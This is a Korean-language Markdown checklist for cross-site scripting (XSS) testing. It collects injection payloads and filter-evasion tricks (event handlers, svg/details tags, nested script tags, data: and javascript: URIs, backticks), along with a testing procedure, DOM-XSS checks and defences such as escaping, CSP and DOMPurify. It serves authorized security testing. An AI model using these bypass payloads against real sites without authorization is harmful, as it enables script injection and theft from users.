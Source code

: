 # XSS 점검 가이드 & 페이로드 모음 (Markdown 버전)

보안 점검 시 활용할 수 있는 **XSS 페이로드**, **점검 절차**, **대응 방안**을 한 문서로 정리했습니다.  
모든 예시는 **합법적이고 승인된 환경**에서의 연구/내부 점검 목적에만 사용하세요.

---
**TEST**
---

## 목차
- [개요](#개요)
- [추천 페이로드](#추천-페이로드)
- [점검 방법](#점검-방법)
- [상황별 점검 포인트](#상황별-점검-포인트)
- [패킷 관점 체크](#패킷-관점-체크)
- [대응 방안](#대응-방안)
- [유의 사항](#유의-사항)
- [참고](#참고)


## 개요
- 입력값이 **어느 컨텍스트**에 들어가는지(태그/속성/스크립트/URL 등)를 먼저 파악한 뒤, 해당 컨텍스트에서 **실행 가능**한 최소 페이로드부터 시도합니다.
- **패턴 기반 필터**만 믿지 말고, 아키텍처적으로 **신뢰되지 않은 입력을 HTML로 렌더링하지 않는** 방향을 우선 검토하세요.

> **주의**  
> 본 문서는 예시를 **코드 블록**으로만 제공합니다(자동 실행 없음). 승인되지 않은 시스템에 대한 테스트는 불법입니다.



## 추천 페이로드

### 1) 기본 테스트
```html
<script>alert(1111)</script>
```

### 2) `<script>` 태그가 차단될 때
```html
<details onpointerover=confirm(1111)></details>
```

### 3) 속성 값(value) 내부 삽입 (동작 유발 필요)
```html
" onkeydown=confirm(1111) contenteditable onfocus
```

### 4) 공백이 차단될 때
```html
<svg/onload=confirm(1111)/>
```

### 5) Polyglot XSS (컨텍스트 다중 호환)
> 여러 컨텍스트에서 동시에 유효하게 해석되도록 설계한 페이로드.  
> 프로젝트 성격에 맞춰 별도 섹션으로 확장하세요.



## 점검 방법

### A. 입력값 위치(컨텍스트) 파악
- **태그 속성 내부**
  ```html
  <input type="text" value="입력 값">
  ```
  따옴표 종료 후 이벤트 삽입:
  ```html
  <input value="test" onpointerover=confirm(1111)>
  ```

- **태그 외부(본문 영역)**
  ```html
  <a href="test.com">텍스트</a><script>alert(1111)</script>
  ```

### B. 필터링/치환 패턴 식별 및 우회
- 특수문자 제한(`"`, `<`, `(`, `=` 등) 시 **인코딩/대체 문자** 활용
- 이벤트 핸들러 제한(`onload`, `onerror` 등) 시 **대체 핸들러** 검토(예: `onpointerover`, `onkeydown`)
- `<script>` 차단 시 **대체 태그/기능** 활용
  ```html
  <svg onload=confirm(1111)>
  ```
  ```html
  <meta http-equiv="refresh" content="0;url=data:text/html,<script>alert(1111)</script>">
  ```

- **삭제/치환 기반 필터** 우회
  ```html
  <scr<script>ipt>alert(1111)</scr<script>ipt>
  ```

- **알림창 함수 필터링** 우회(속성/객체 경유)
  ```html
  <svg onload="window "/>
  ```

### C. 추가 문자열 주입(접두/접미) 대응
- 뒤에 문자열이 붙는 경우: `<!--` 등 **주석 처리**로 종료
- 앞에 붙는 경우: **태그 닫기** 후 새로운 구문으로 이탈



## 상황별 점검 포인트

- **특수문자 필터링**: `"`, `'`, `<>`, `()`, `:`, `=`
- **응답 맥락 탈출**: `" />`, `</script>` 등으로 컨텍스트 이탈 가능성 확인
- **대소문자 혼용**: `<sCriPt>` 등
- **이벤트 핸들러 필터링**: `onload`, `onerror`, `onclick` 차단 시 `ondrag`, `onfocus`, `onpointerover` 등 대체 검토
- **인코딩 시도**
  - URL: `%3Cscript%3E`
  - 유니코드: `<`
  - HTML 엔티티: `&#x3C;`
  - Base64: `data:text/html;base64,...`
- **태그 필터링 우회**: `<script>`, `<img>`, `<svg>` 차단 시 `<details>`, `<object>`, `<embed>` 등
- **하이퍼링크 기반**
  ```html
  <a href="javascript:confirm(1)">Click</a>
  ```
- **폼 전송 기반**
  ```html
  <form action="data:text/html,<script>alert(1111)</script>">
    <input type="submit">
  </form>
  ```
- **공백 필터링 우회**: `<svg/onload=...>` (환경/브라우저 의존성 주의)
- **hidden 필드 탈출 / iframe·object·embed·meta의 `data:` 스킴 활용** (환경 의존)

<details>
<summary><strong>추가 사례 모음 (접기/펼치기)</strong></summary>

- 알림창 전부 필터링 시 **리다이렉트/네비게이션** 등 대체 효과 검토  
  ```html
  <img src=x onerror="location.href='https://example.org'">
  ```

- `()` 필터링 시 **백틱** 활용 가능한지 확인  
  ```html
  alert`1`
  ```

- **응답 값 뒤에 문자열이 붙어 실패**할 때: 주석/닫기 태그로 무력화  
  ```html
  <img src onerror=prompt(1)<!--
  ```

- `<` 치환 시 앞에 `<` 추가 시도  
  ```html
  <x<svg/onload=prompt(1)/>/>
  ```
</details>



## 패킷 관점 체크
- **`location.hash` 사용 여부**: 응답 내 해당 참조가 있으면 `#<payload>`로 DOM XSS 가능성
- **POST→GET 변환**: 동일 파라미터가 GET으로도 반영되는지 확인 (렌더링 경로 차이로 성공 가능성↑)
- **전송 패킷엔 없지만 응답에 페이로드가 존재**: 응답에 있던 값을 **직접 전송**하여 반영되는지 재확인



## 대응 방안 (필수)
- **출력 이스케이프**: 컨텍스트별 적절한 이스케이프 적용
- **CSP(Content Security Policy)**: 스크립트 소스/인라인 제한, 보고 엔드포인트 설정
- **Sanitizer 적용**: 검증된 라이브러리(예: DOMPurify) 사용
- **아키텍처 개선**: 신뢰되지 않은 입력을 HTML로 렌더링하지 않도록 템플릿/렌더 경계 재설계

> **권장**  
> 패턴 기반 필터에만 의존하지 말고, **출력 컨텍스트 보안**과 **CSP**를 병행하세요.



## 유의 사항
- 고객사/사내 식별 가능 정보(도메인, 스크린샷, 내부 경로, 로그 등)는 **공개 저장소에 포함하지 마세요**.
- Git 이력(History)에 남은 민감 정보는 **레포 삭제/히스토리 재작성** 없이 완전 제거되지 않을 수 있습니다.



## 참고
- PortSwigger XSS Cheat Sheet  
  https://portswigger.net/web-security/cross-site-scripting/cheat-sheet



© 2025 XSS Checklist · 연구/내부 점검 용도
